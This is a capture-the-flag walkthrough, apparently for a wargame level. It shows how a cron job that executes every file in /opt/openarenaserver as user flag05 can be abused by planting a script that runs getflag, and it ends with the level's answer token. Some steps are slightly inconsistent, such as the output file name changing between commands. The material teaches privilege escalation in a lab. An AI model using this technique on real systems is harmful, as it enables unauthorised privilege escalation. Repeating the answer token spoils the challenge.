 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2005(level05) gid=2005(level05) groups=2005(level05),100(users)
```

This shows that we are operating as the user `level05`.

---
When we logged into the machine, a message appeared:
```
You have new mail.
```

## Step 2: Searching for Files

Next, let's search for files related to mail:
```bash
$ find / -name mail 2> /dev/null
/usr/lib/byobu/mail
/var/mail
/var/spool/mail
/rofs/usr/lib/byobu/mail
/rofs/var/mail
/rofs/var/spool/mail

```

Among the results, the contents of `/rofs/var/mail/level05` seem interesting:
```bash
$ cat level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
We learn from this that a cron job is running every 2 minutes, executing the script `/usr/sbin/openarenaserver` with `flag05` user privileges.

Let's take a look at this script.

---
## Step 3: Read the source code of script

First, let's identify the type of the script:
```bash
$ file /usr/sbin/openarenaserver
/usr/sbin/openarenaserver: POSIX shell script, ASCII text executable
```
```bash
$ cat /usr/sbin/openarenaserver

#!/bin/sh
for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
### Explanation:
The script loops over all files in the /opt/openarenaserver/ directory.
For each file, it runs the script with bash in debug mode (bash -x) while limiting the execution time to 5 seconds using ulimit -t 5.
After executing, the script deletes the file.

---
## Step 4: Exploiting the Binary to Get a flag
To exploit this, we can create a file in /opt/openarenaserver/ that contains a command we want to execute with flag05 privileges. In this case, we want to obtain the flag, so we can create a file with the following content:

```bash
echo 'getflag > /tmp/output_getflag'
```
When the cron job runs the script, it will execute our file and redirect the output of getflag to /tmp/output_getflag.

```bash
$ cat /tmp/output_flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
---

And there you have it, the token is `viuaaale9huek52boumoomioc`.
